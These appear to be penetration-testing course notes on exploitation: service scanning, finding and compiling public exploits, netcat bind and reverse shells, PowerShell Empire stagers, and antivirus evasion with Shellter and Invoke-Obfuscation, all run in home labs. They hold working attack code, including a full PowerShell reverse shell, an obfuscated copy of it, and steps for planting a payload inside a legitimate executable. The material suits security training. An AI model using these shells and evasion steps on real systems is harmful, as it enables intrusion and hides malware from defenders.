# Exploitation

> #### ⚡ Prerequisites
>
> * Basic familiarity with Linux & Windows
> * Basic understanding of TCP & UDP protocols
> * Basic familiarity with Metasploit
>
> #### 📕 Learning Objectives
>
> * Identify services **vulnerabilities**
> * Search for and manipulate public **exploit code**
> * Utilize exploitation **frameworks**, **bind & reverse shells**
> * Perform exploitation in a **black box pentest**
> * Evade signature-based antivirus solutions
>
> #### 🔬 Training list - PentesterAcademy/INE Labs
>
> `subscription required`
>
> - [Linux Exploitation - Metasploit](https://www.attackdefense.com/listingnoauth?labtype=linux-security-exploitation&subtype=linux-security-exploitation-metasploit)
> - [Win Post Exploitation - Metasploit](https://attackdefense.com/listing?labtype=windows-post-exploitation&subtype=windows-post-exploitation-metasploit)
> - [Linux Services Exploitation](https://www.attackdefense.com/listing?labtype=service-exploitation&subtype=service-exploitation-linux)
>
> #### 🔬 Home Labs
>
> - [Metasploitable2](https://docs.rapid7.com/metasploit/metasploitable-2/)
> - [Metasploitable3](https://github.com/rapid7/metasploitable3)

## [Exploitation](http://www.pentest-standard.org/index.php/Exploitation) Introduction

🗒️ **Exploitation** is a phase of a penetration test that focuses on establishing access, *initial foothold*, to a system or resource by bypassing security restrictions.

With a proper vulnerability analysis, the exploitation attack vector should focus on the success probability and the high value target assets with the highest impact on the scanned organization.

- *The use of automated exploitation tools (Metasploit, Powershell Empire, etc) shouldn't be prevalent*
- Exploitation methodology:
  - Identify Vulnerable Services
  - Identify Prepare Exploit Code
  - Gaining Remote access
  - Bypass AV detection
  - Pivoting

## Vulnerability Scanning

- Identify running and vulnerable services

### [Banner Grabbing](https://cyberexperts.com/encyclopedia/banner-grabbing/)

🗒️ **Banner grabbing** is the info gathering manual or automatic process used to obtain software and services name and version. The host server displays a text with this information as a *banner*.

Tools and techniques:

- `nmap` service version detection scan
- `Netcat` connection
- Authentication with a supported service
- `curl` / `wget` to get headers details of an HTTP server

> 🔬 Check the [SSH Enumeration Lab here](../assessment-methodologies/3-enumeration/ssh-enum.md)

Some useful commands from the lab environment:

- `nmap`

```bash
nmap -sV -O <TARGET_IP>
	
	22/tcp open  ssh   OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
```

```bash
ls -al /usr/share/nmap/scripts | grep banner
nmap -sV --script=banner <TARGET_IP>

	|_banner: SSH-2.0-OpenSSH_7.2p2 Ubuntu 4ubuntu2.6
```

- `nc` / `netcat`

```bash
nc <TARGET_IP> <TARGET_OPEN_PORT>
nc <TARGET_IP> 22

	SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.6
```

- SSH Authentication

```bash
ssh root@<TARGET_IP>
	Welcome to attack defense ssh recon lab!! # SSH Welcome Banner
```

### [Nmap Scripts](https://nmap.org/book/nse)

🗒️ **Nmap Engine Scripting** (**NSE**) - an `nmap` feature that allows to write simple scripts to automate a wide variety of tasks, like:

- network discovery
- sophisticated version detection
- vulnerability detection and exploitation
- backdoor detection

Scripts are written using the **Lua** programming language.

Nmap script default directory is:

- `/usr/share/nmap/scripts`

```bash
ls -al /usr/share/nmap/scripts | grep <keyword>
```

> 🔬 Check the [Bash - ShellShock Lab here](../hostnetwork-penetration-testing/1-system-attack/linux-attacks/bash-shell.md)

Some useful commands and `nmap` script scan from the lab environment:

```bash
nmap -sV -O <TARGET_IP>
	80/tcp open  http  Apache httpd 2.4.6 ((Unix))
```

```bash
nmap -sV -p 80 --script=http-enum <TARGET_IP>

ls -al /usr/share/nmap/scripts | grep shellshock

nmap -sV --script=http-shellshock --script-args "http-shellshock.uri=/gettime.cgi" <TARGET_IP>

# Vulnerable to the CVE-2014-6271
```

### [Metasploit](3-metasploit.md)

Focus on the techniques and the flow to detect vulnerabilities.

> 🔬 Home Lab based on a Windows 7/2008 R2 target vulnerable to EternalBlue SMB RCE. Check the [Lab 2 here](../hostnetwork-penetration-testing/1-system-attack/windows-attacks/smb-psexec.md)

```bash
sudo nmap -sS -sV <TARGET_IP>
```

```bash
searchsploit EternalBlue
searchsploit ms17-010
```

```bash
# Check the vulnerability with a scanner, before trying to exploit it
msfconsole

search eternalblue
use auxiliary/scanner/smb/smb_ms17_010
set RHOSTS <TARGET_IP>
run

use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS <TARGET_IP>
run
```

## Searching for Exploits

Exploit code can be found online or inside locally-stored exploit database in pentest Linux distributions (`searchsploit`, MSF).

**Verifiable online sources**:

- [exploit-db.com](https://www.exploit-db.com/)
  - always check for the **Verified** column
  - use search filters
  - [Dorks - Google Hacking Database](https://www.exploit-db.com/google-hacking-database)
- [Rapid7 db](https://www.rapid7.com/db/)

> ❗ **Always pay attention at publicly available exploits. An exploit can be weaponized to attack the actual attacker system!**
>
> 📌 Analyze the exploit code behavior to ensure that it works as intended.

### [Searchsploit](https://www.exploit-db.com/searchsploit)

🗒️ **`searchsploit`** - command line search tool for Exploit-Db that allows to have an offline copy of the Exploit-Db.

- Useful for security assessments on networks without Internet access
- Pre-packed with Kali Linux
- `exploitdb` local directory is:
  - `/usr/share/exploitdb`

```bash
# Debian-based distro install
sudo apt update && sudo apt -y install exploitdb
```

```bash
ls -al /usr/share/exploitdb

# Update the exploitdb package updates
searchsploit -u
```

```bash
searchsploit [options] <term>
searchsploit vsftpd 2.3.4

# Copy an exploit to the current working dir
searchsploit -m 49757    

# Case sensitive search
searchsploit -c OpenSSH

# Search just the exploit title
searchsploit -t vsftpd

# Exact search on title
searchsploit -e "Windows 7"

# Filters search
searchsploit remote windows smb
searchsploit remote linux ssh
searchsploit remote linux ssh OpenSSH
searchsploit remote webapps wordpress
searchsploit local windows
searchsploit local windows | grep -e "Microsoft"

# List online links
searchsploit -w remote windows smb | grep -e "EternalBlue"
```

## Fixing Exploits

> 🔬 Check the [Fixing Exploits Lab here](4-exploitation/fix-exp.md)

### Cross-Compiling Exploits

Exploit code developed in `C`, `C++`, `C#` has to be compiled into a portable executable or binary.

🗒️ **Cross-compilation** is the process of building on one platform a binary that will run on another platform.

- Compiling `C` code is a necessary skill

> 📌 [ExploitDB bin-sploits](https://github.com/offensive-security/exploitdb-bin-sploits) - **useful for pre-compiled binaries**

**`e.g.`** of Windows and Linux exploit code compiling

- [VideoLAN VLC Media Player 0.8.6f - 'smb://' URI Handling Remote Buffer Overflow](https://www.exploit-db.com/exploits/9303)
- [Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' 'PTRACE_POKEDATA' Race Condition Privilege Escalation (/etc/passwd Method)](https://www.exploit-db.com/exploits/40839)

Tools:

- [**MinGW-w64**](https://www.mingw-w64.org/)

```bash
sudo apt -y install mingw-w64 gcc
```

#### Windows

- Download the VLC exploit or use `searchsploit`

```bash
searchsploit VideolAN VLC SMB
searchsploit -m 9303
```

- Compile the `C` exploit
  - check for comments in the code regarding the compilation commands

```bash
# Compile for x64
x86_64-w64-mingw32-gcc 9303.c -o exploit64.exe

# Compile for x86 (32-bit)
i686-w64-mingw32-gcc 9303.c -o exploit32.exe
```


#### Linux

- Download the DirtyCow exploit or use `searchsploit`

```bash
searchsploit Dirty Cow
searchsploit -m 40839
```

- Compile the `C` exploit
  - check for comments in the code regarding the compilation commands to compile it successfully

```bash
# Compile with
gcc -pthread 40839.c -o dirty_exploit -lcrypt
```



## Bind & Reverse Shells

### [Netcat](../penetration-testing-prerequisites/web-applications.md#netcat)

**`nc`** - a network utility used for a variety of tasks associated with TCP/UDP.

- **Client mode** - used for connection to any TCP/UDP port or to a listener
- **Server Mode** - used as a listener for connection from clients on a specific port

Functionalities:

- open TCP connections, listen on TCP or UDP ports
- Banner grabbing, Port scanning, Files transferring
- Bind/Reverse shells
- 📌 [Hacking with Netcat](https://www.hackingtutorials.org/networking/hacking-with-netcat-part-1-the-basics/)

```bash
# Debian based distro - install
sudo apt update && sudo apt install -y netcat
```

> 🔬 Some HFS Lab commands

```bash
nc <TARGET_IP> <TARGET_PORT>
nc -nv 10.2.23.227 80
# -n = no DNS resolution
# -v = verbose

nc -nvu 10.2.23.227 445
# -u = UDP port
```

Setup a listener:

- Transfer `nc.exe` to the windows target

```bash
# Attacker machine
ip -br -c a
	10.10.24.4/24
cd /usr/share/windows-binaries/
python -m SimpleHTTPServer 80


# Target machine
cd Desktop
certutil -urlcache -f http://10.10.24.4/nc.exe nc.exe
```

- Setup a listener on the attacker machine

```bash
# Attacker machine
nc -nvlp 1234
nc -nvlup 1234 # listen on a UDP port


# Target machine
nc.exe -nv 10.10.24.4 1234
nc.exe -nvu 10.10.24.4 1234

# A connection is received on the Attacker machine
```

- Transfer files with `nc`

```bash
# A listener must be present on the target system
# Target machine
nc.exe -nvlp 1234 > test.txt

# Attacker machine
echo "Hello target" > test.txt
nc -nv 10.2.23.227 1234 < test.txt
```

### Bind Shells

> 📌 [Bind and Reverse shells](https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/)



🗒️ **Bind Shell** - a remote shell where *the attacker connects to the listener running on the target system* and execute commands on the target system.

- *Bind shells issues*:
  - Must have access to the target system
  - Inbound traffic can be blocked by a firewall, it is very suspect

-  A `netcat` listener must be configured on the target system to execute:
  - `cmd.exe` - Windows
  - `/bin/bash` - Linux

> 🔬 Same lab as above (IPs might change)

- Once uploaded the `nc.exe` on the target system, proceed with the bind shell

```bash
# Target Win machine - Bind shell listener with executable cmd.exe
nc.exe -nvlp 1234 -e cmd.exe

# Attacker Linux machine
nc -nv 10.2.22.140 1234
```



```bash
# Target Linux machine - Bind shell listener with executable cmd.exe
nc -nvlp 1234 -c /bin/bash

# Attacker Win machine
nc.exe -nv 10.10.24.2 1234
```


### Reverse Shells



🗒️ **Reverse Shell** - a remote shell where *the target connects to a listener running on the attacker's system* (**`e.g.`** Metasploit Meterpreter).

- *Reverse shells advantages*:
  - The connection can be initialized without `netcat` too
  - Outgoing traffic may not be blocked by firewalls

- *Reverse shells issues*:
  - used exploit have to know the attacker's IP
  - the attacker's IP can be logged as malicious or present in the exploit file

```bash
# Attacker Linux machine
nc -nvlp 1234

# Target Win machine
nc.exe -nv 10.10.18.3 1234 -e cmd.exe
```



```bash
# Attacker Linux machine
nc -nvlp 1234

# Target Linux machine (localhost in this case)
nc -nv 127.0.0.1 1234 -e /bin/bash
```



#### Reverse Shell without Netcat

📌 [PayloadsAllTheThings - Reverse Shell Cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

- Examples of Reverse Shell with different code (bash, Python, Powershell, PHP, etc)



📌 [Reverse Shell Generator](https://www.revshells.com/)



**`e.g.`**

```bash
# Kali Linux attacker machine
nc -nvlp 9001
```

```bash
# Windows target machine
# Run CMD and paste the code below
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.31.128',9001);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```



## Exploitation Frameworks

### [The Metasploit Framework](3-metasploit.md)

- Focus on the **Exploitation** phase
- Modular
- MSF turns the exploit code into a module, using the `Ruby` programming language

> 🔬 Check the [Workflow Platform Lab here](4-exploitation/workflow-exp.md)

### [PowerShell-Empire](https://github.com/BC-SECURITY/Empire)

**`Empire`** - PowerShell post-exploitation framework for Win, Linux and macOS

> *Empire is a post-exploitation and adversary emulation framework that is used to aid Red Teams and Penetration Testers. The Empire server is written in Python 3 and is modular to allow operator flexibility. Empire comes built-in with a client that can be used remotely to access the server. There is also a GUI available for remotely accessing the Empire server, [Starkiller](https://github.com/BC-SECURITY/Starkiller).*

- PowerShell-Empire is primarily designed for Windows targets
- **`Starkiller`** - GUI frontend for `PowerShell-Empire`
- [Kali Linux install](https://www.kali.org/tools/powershell-empire/)

```bash
sudo apt update && sudo apt install -y powershell-empire
```

> 🔬 Home Lab based on a Kali Linux attacker VM and Win7 target VM with IP `192.168.31.131`

```bash
sudo powershell-empire server
```



- In another terminal tab

```bash
sudo powershell-empire client
```



```bash
listeners
agents
```

- Open Starkiller
  - `http://localhost:1337/index.html#/`
  - Credentials: `empireadmin`:`password123`





- Run the `csharpserver`



- Create a `http` **listener** to receive the reverse connection from the target system



- Generate a **Stager** with `windows_csharp_exe` type



- Actions - Download the `Sharpire.exe` stager

```bash
# Open a new terminal window
cd Downloads
python3 -m http.server 80

# On the Windows VM download the Sharpire.exe from http://192.168.31.128/
# Run it
```

- Back on the Starkiller **Agents** page, check for the active agent





- Back in the Empire terminal session

```bash
agents
interact <ID>
history
```



## Windows Black Box Exploitation

🗒️ **Black Box** penetration test - security assessment conducted without any internal system or network knowledge.

- The pentester act like an *external unprivileged hacker from outside the network*
- No information about the target system

Typical **Black Box Methodology**:

- Host discovery ➡️ Port Scanning ➡️ Enumeration
- Vulnerability detection
- Exploitation ➡️ Manual/Automated
- Post Exploitation - PrivEsc ➡️ Persistence ➡️ Dumping Hashes

**`e.g.`**

**Scenario**

- Penetration Test to gain access and exploit a Win Server 2008 host.

**Scope**

- Identify running and vulnerable services on the target
- Exploit the vulnerabilities to obtain a foothold

> 🔬 The techniques will be covered in the dedicated [Win Black Box Pentest Lab here](4-exploitation/win-blackbox-exp.md). This is a lab containing a [Metasploitable3](https://github.com/rapid7/metasploitable3) target.
>
> - Identify easily exploitable services
> - Pick the target as efficiently as possible
> - Time is a factor

## Linux Black Box Exploitation

**Scenario**

- Penetration Test to gain access and exploit a Linux server host.

**Scope**

- Identify running and vulnerable services on the target
- Exploit the vulnerabilities to obtain a foothold and gain access to the system

> 🔬 The techniques will be covered in the dedicated [Linux Black Box Pentest Lab here](4-exploitation/linux-blackbox-exp.md). This is a lab containing a [Metasploitable2](https://docs.rapid7.com/metasploit/metasploitable-2/) target.

## AV Evasion & Obfuscation

🗒️ [**Defense Evasion**](https://attack.mitre.org/tactics/TA0005/) *consists of techniques that adversaries use to avoid detection throughout their compromise. Techniques used for defense evasion include uninstalling/disabling security software or **obfuscating/encrypting** data and scripts. Adversaries also leverage and abuse trusted processes to hide and masquerade their malware.* (MITRE)

- **Antivirus detection methods** can be classified as follows:

|            Method             | Description                                                  |
| :---------------------------: | ------------------------------------------------------------ |
| **Signature based detection** | A signature is a static unique sequence of bytes of known malware, created using essential elements of an analyzed file. The AV comes with a signature database |
| **Heuristic base detection**  | Statically examine files for suspicious specific characteristics, relying on rules to determine a malicious binary |
| **Behavior based detection**  | Monitor malware for suspicious behavior                      |

- **On-disk Evasion** techniques
  - **Obfuscation** - *The act of hiding anything crucial, useful, or vital. Code is reorganized through obfuscation to make it more difficult to decipher or reverse engineer.*
  - **Encoding** - *The process of transforming data into a new format using an encoding strategy. Data can be encoded to a new format and then decoded back to its original format since **encoding is a reversible operation**.*
  - **Packing** - *Generate executables with updated binary structures, lower in size and a new payload's signature.*
  - **Crypters** - *Encrypts payloads, then the encrypted code is decrypted in memory. The decryption key is typically kept in a stub.* (ransomware)
- **In-memory Evasion** techniques
  - *Memory manipulation* rather than writing files to disk
  - Payload is injected into a process, then executed in memory in a separate thread

### [Shellter](https://www.shellterproject.com/introducing-shellter/)

**`Shellter`** -  *dynamic shellcode injection tool and dynamic PE (Portable Executable) infector ever created.*

- Uses a unique dynamic approach based on the execution flow of the target app
- Takes advantage of the original structure of the PE file
- Supports any 32-bit payload (generated either by metasploit or custom ones by the user)
- Portable
- Compatible with Windows x86/x64 (XP SP3 and above) & Wine/CrossOver for Linux/Mac

> 🔬 Home lab with Kali Linux and Win7 VMs

[Shellter Kali Linux Installation](https://www.kali.org/tools/shellter/):

```bash
sudo apt update && sudo apt install -y shellter

# Wine64 will be automatically installed
# Win32 needs additional commands to install it
sudo dpkg --add-architecture i386 && sudo apt update && sudo apt -y install wine32
rm -r ~/.wine
```

```bash
cd /usr/share/windows-resources/shellter
```

- Execute an `exe` file on Linux

```bash
sudo shellter
```



- Inject the shellcode into`/usr/share/windows-binaries/vncviewer.exe` file after copying it to a folder

```bash
mkdir AVBypass
cd AVBypass
cp /usr/share/windows-binaries/vncviewer.exe .
```

- In the `SHELLTER` windows, choose `A` for automatic
- PE Target: `/home/kali/certs/ejpt/AVBypass/vncviewer.exe`



- Stealth Mode: `Y` = `vncviewer` will function as normal and the shellcode will be executed in the background
- Payload: `L` - `1`
- LHOST: Attacker's IP - `192.168.31.128`
- LPORT: `1234`





- Now the `/home/kali/certs/ejpt/AVBypass/vncviewer.exe` **file has been replaced by the Shellter generated malicious executable**
- Copy the `vncviewer.exe` file to the target machine

```bash
# Attacker VM
cd /home/kali/certs/ejpt/AVBypass/
sudo python -m http.server 80

# In another terminal
msfconsole
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.31.128
set LPORT 1234
run
```



- Run the `vncviewer.exe` file and chheck the `msfconsole` Meterpreter session



### PowerShell Code Obfuscation

[**`Invoke-Obfuscation`**](https://github.com/danielbohannon/Invoke-Obfuscation) - *a PowerShell v2.0+ compatible PowerShell command and script obfuscator.*

> 🔬 Home lab with Kali Linux and Win7 VMs

- Kali Linux install PowerShell

```bash
cd /opt
sudo git clone https://github.com/danielbohannon/Invoke-Obfuscation.git
sudo apt update && sudo apt install -y powershell
```

- Run `pswh`

```bash
pwsh
cd /opt/Invoke-Obfuscation/
Import-Module ./Invoke-Obfuscation.psd1
cd ..
Invoke-Obfuscation
```



- Create the reverse PowerShell script in a new file
  - PowerShell Reverse Shell code will be

```bash
cd /home/kali/certs/ejpt/AVBypass/    
nano shell.ps1
```

```bash
$client = New-Object System.Net.Sockets.TCPClient('192.168.31.128',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

- Back in `Invoke-Obfuscation`

```bash
SET SCRIPTPATH /home/kali/certs/ejpt/AVBypass/shell.ps1
AST
ALL
1
```



- Obfuscated code is:

```bash
Set-Variable -Name client -Value (New-Object System.Net.Sockets.TCPClient('192.168.31.128',4242));Set-Variable -Name stream -Value ($client.GetStream());[byte[]]$bytes = 0..65535|%{0};while((Set-Variable -Name i -Value ($stream.Read($bytes, 0, $bytes.Length))) -ne 0){;Set-Variable -Name data -Value ((New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i));Set-Variable -Name sendback -Value (iex $data 2>&1 | Out-String );Set-Variable -Name sendback2 -Value ($sendback + 'PS ' + (pwd).Path + '> ');Set-Variable -Name sendbyte -Value (([text.encoding]::ASCII).GetBytes($sendback2));$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

```bash
cd /home/kali/certs/ejpt/AVBypass/    
nano obfuscated.ps1
```

```bash
# Attacker VM another terminal
cd /home/kali/certs/ejpt/AVBypass/
sudo python -m http.server 80

nc -nvlp 4242
```

- Run the `obfuscated.ps1` file on the Win10 VM



- Back on the Kali VM check the PowerShell reverse shell 



------

